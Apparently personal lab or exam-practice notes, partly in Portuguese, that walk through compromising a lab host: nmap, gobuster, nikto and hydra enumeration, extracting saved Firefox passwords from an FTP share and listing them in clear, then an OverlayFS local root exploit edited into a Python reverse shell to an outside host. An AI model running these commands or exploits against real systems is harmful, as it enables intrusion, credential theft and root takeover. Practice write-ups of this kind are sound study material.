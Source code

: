 192.168.109.110
========================

# Enumeration

    sudo nmap_enum 192.168.109.110 | tee nmap_output.txt
    
    
![qownnotes-media-ujOlCr](../media/qownnotes-media-ujOlCr.png)

FTP Anonymous login

    ftp -a 192.168.109.110
    
    ftp -a -A 192.168.109.110
    
Não funcionou:
    wget -r ftp://192.168.109.110/interns
    
    
![qownnotes-media-RNvOdi](../media/qownnotes-media-RNvOdi.png)

    gobuster dir -u http://192.168.109.110 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
    gobuster dir -u http://192.168.109.110:443 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
![qownnotes-media-UlgSlN](../media/qownnotes-media-UlgSlN.png)

![qownnotes-media-fmWmxT](../media/qownnotes-media-fmWmxT.png)

![qownnotes-media-xGFhtW](../media/qownnotes-media-xGFhtW.png)


    sudo nmap -p- -Pn -n -T5 192.168.109.110 | tee nmap_fullports_output.txt

![qownnotes-media-VWXCqH](../media/qownnotes-media-VWXCqH.png)

    nikto -host http://192.168.109.110 -T x 6 | tee nikto_output.txt

    nikto -host http://192.168.109.110:443 -T x 6 | tee nikto_output.txt

![qownnotes-media-dGzwcP](../media/qownnotes-media-dGzwcP.png)


    cewl http://192.168.109.110/ > users_temp.txt
    
Add some possible names

![qownnotes-media-UZcqzl](../media/qownnotes-media-UZcqzl.png)
    

    hydra -L users_temp.txt -P /usr/share/wordlists/rockyou.txt 192.168.109.110 ssh
 
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 192.168.109.110 | tee nmap_udp_output.txt

![qownnotes-media-mllltf](../media/qownnotes-media-mllltf.png)

    sudo nmap -p- -Pn -n -T5 192.168.109.110 | tee nmap_fullports_output.txt

![qownnotes-media-UKeKYq](../media/qownnotes-media-UKeKYq.png)

    nmap -Pn -sV -p 21 --script="banner,(ftp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_21_ftp_nmap.txt" 192.168.109.110
    
![qownnotes-media-fAKVky](../media/qownnotes-media-fAKVky.png)

    hydra -l ashea -P /usr/share/wordlists/rockyou.txt 192.168.109.110 sshhydra -l ashea -P /usr/share/wordlists/rockyou.txt 192.168.109.110 ssh

# Exploitation


    ftp -a -A 192.168.109.110
    
    cd interns/backup/users/malika/
    
    cd .mozilla
    
    cd firefox/3ot0ydzb.default
    
    ls -all
    
![qownnotes-media-PWuUSz](../media/qownnotes-media-PWuUSz.png)

    mget *
    
![qownnotes-media-aYGtAw](../media/qownnotes-media-aYGtAw.png)

![qownnotes-media-xWZyUM](../media/qownnotes-media-xWZyUM.png)

![qownnotes-media-nsQEzS](../media/qownnotes-media-nsQEzS.png)

    git clone https://github.com/lclevy/firepwd.git
    cd /opt
    sudo virtualenv env
    source env/bin/activate
    sudo chown -R /opt/env
    pip install -r requirements.txt
    
    
    python firepwd.py -d /media/owncloud/Area_de_trabalho/estudos/oscp/prova2/192_168_109_110/ftp/temp

![qownnotes-media-aEOzwj](../media/qownnotes-media-aEOzwj.png)

![qownnotes-media-rjIdDY](../media/qownnotes-media-rjIdDY.png)

Credenciais obtidas:

malika
Anisoptera_Odonata4!


0w3ns4Life@1!
M@lik@870322
P@$$w0rD!001
Malika_Odonata4!



    ssh malika@192.168.109.110ssh malika@192.168.109.110
    Anisoptera_Odonata4!<ENTER>
    
![qownnotes-media-HISpLB](../media/qownnotes-media-HISpLB.png)

![qownnotes-media-gnyQOv](../media/qownnotes-media-gnyQOv.png)

# Privilege Escalation


https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/

Original

    unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; 
    setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"

Editado:

    unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
    setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import socket,subprocess,os;os.setuid(0);s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.109\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
    
![qownnotes-media-PCuAdV](../media/qownnotes-media-PCuAdV.png)

![qownnotes-media-KIiCHK](../media/qownnotes-media-KIiCHK.png)


    /bin/bash -i
    
![qownnotes-media-isgicW](../media/qownnotes-media-isgicW.png)


    ps aux
    
    